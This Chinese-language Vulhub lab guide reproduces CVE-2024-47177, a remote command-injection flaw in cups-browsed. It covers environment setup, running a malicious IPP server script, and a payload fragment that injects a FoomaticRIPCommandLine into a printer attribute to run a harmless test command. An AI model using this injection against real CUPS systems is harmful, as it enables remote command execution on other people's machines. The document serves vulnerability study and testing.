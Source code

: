 # OpenPrinting Cups-Browsed PDD FoomaticRIPCommandLine 参数导致远程命令执行漏洞（CVE-2024-47177）

OpenPrinting CUPS（通用Unix打印系统）是为类Unix操作系统开发的开源打印系统。它允许计算机充当打印服务器，高效管理本地和网络打印机。Cups-Browsed是CUPS系统的一部分，是一个专门用于浏览网络上其他CUPS服务器共享的远程打印机的守护进程。它可以自动发现和配置网络打印机，让用户更容易访问和使用网络上共享的打印资源，无需手动设置。

在Cups-Browsed 2.0.1及之前的版本中，存在一个由PPD（PostScript打印机描述）文件中的`FoomaticRIPCommandLine`参数处理不当引起的问题。攻击者可以通过创建一个恶意的IPP（互联网打印协议）服务器来利用这个漏洞，向易受攻击的Cups-Browsed实例发送精心制作的打印机信息，然后在运行易受攻击的Cups-Browsed的系统上执行任意命令。

参考链接：

- <https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/>
- <https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8>

## 漏洞环境

执行如下命令启动一个2.4.7版本CUPS服务器和2.0.1版本Cups-Browsed服务器：

```
docker-compose up -d
```

环境启动后，可以通过`http://<your-ip>:631`访问CUPS的web界面。

漏洞环境来源：https://github.com/vulhub/vulhub

## 漏洞复现

首先，下载[evil-ipp-server](https://github.com/vulhub/evil-ipp-server)项目并运行[poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py):

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

这个脚本会在`[evil-ipp-server-ip]`上启动一个恶意的IPP服务器，并向目标机器`[target-ip]`上的Cups-Browsed服务发送一个UDP数据包。

一旦Cups-Browsed接收到请求，它将尝试连接到恶意的IPP服务器并。IPP服务器会返回精心构造的`printer-privacy-policy-uri`属性，该属性中包含恶意payload，其结构如下：

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

然后，Cups-Browsed会在`/tmp/`目录下创建一个临时PPD文件，我们的payload会被注入到这个文件中。下图是相关的Cups-Browsed日志：

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409290934881.png)

此时，命令还未执行，因为我们需要至少一个打印任务来触发命令的执行。

打印任务可能来自于正常用户，也可以来自攻击者。如果TCP 631端口开发，我们可以使用浏览器访问，并找到刚才增加的恶意IPP打印机，并创建一个“打印测试页面”的打印任务。

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409290934786.png)

任务执行后，进入容器即可发现，`echo 1 > /tmp/I_AM_VULNERABLE`命令已经成功执行：

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409290934588.png)



## 漏洞来源

- https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.zh-cn.md